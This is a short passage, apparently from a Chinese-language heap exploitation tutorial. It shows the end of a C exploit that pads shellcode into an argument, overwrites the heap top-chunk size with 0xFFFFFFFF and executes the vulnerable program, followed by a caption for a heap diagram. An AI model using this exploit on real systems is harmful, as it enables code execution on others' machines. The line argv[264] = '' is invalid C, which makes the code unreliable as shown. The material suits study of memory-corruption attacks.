 ```
        strcpy(argv1,scode);
        for(i=25;i<260;i++)
                argv1[i] = 'A';

        strcpy(argv1+260,"\xFF\xFF\xFF\xFF"); /* Top chunk size */
        argv[264] = ''; /* Terminating NULL character */ 

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

漏洞程序的堆内存，一旦攻击者的命令行参数复制到堆中：

![4](../img/e53d7e399a9a2687ef6f8680ac673cbb.png)
